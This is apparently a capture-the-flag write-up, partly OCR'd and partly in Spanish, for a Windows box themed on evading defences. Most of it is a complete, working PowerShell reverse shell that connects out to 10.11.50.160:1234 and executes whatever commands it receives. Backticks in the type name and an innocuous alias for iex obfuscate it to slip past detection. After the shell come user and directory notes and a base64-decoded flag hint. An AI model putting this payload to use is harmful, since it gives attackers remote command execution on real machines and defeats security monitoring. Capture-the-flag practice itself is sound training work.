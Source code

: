 



###The vulnerable.ps1 file is a reverse shell, modifying the reverse shell file

###Using this as a reverse shell (sample.ps1)

Set-Alias -Name K -Value Out-String
Set-Alias -Name nothingHere -Value iex
$BT = New-Object "S`y`stem.Net.Sockets.T`CPCl`ient"('10.11.50.160',1234);
$replace = $BT.GetStream();
[byte[]]$B = 0..(32768*2-1)|%{0};
$B = ([text.encoding]::UTF8).GetBytes("(c) Microsoft Corporation. All rights reserved.`n`n")
$replace.Write($B,0,$B.Length)
$B = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>')
$replace.Write($B,0,$B.Length)
[byte[]]$int = 0..(10000+55535)|%{0};
while(($i = $replace.Read($int, 0, $int.Length)) -ne 0){;
$ROM = [text.encoding]::ASCII.GetString($int,0, $i);
$I = (nothingHere $ROM 2>&1 | K );
$I2  = $I + (pwd).Path + '> ';
$U = [text.encoding]::ASCII.GetBytes($I2);
$replace.Write($U,0,$U.Length);
$replace.Flush()};
$BT.Close()

----------------------------------------------------------------

- USER

-- Administrator
-- evader


- DIRECTORIOS

C:\Users\evader\Desktop\

SHELL> type encodedflag

— — -BEGIN CERTIFICATE — — WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA=
— — -END CERTIFICATE — — -
SHELL>


https://www.base64decode.org/es/





You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php


You can get the flag by visiting the link http://10.201.71.91:8000/asdasdadasdjakjdnsdfsdfs.php




echo "WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA=" | base64 -d
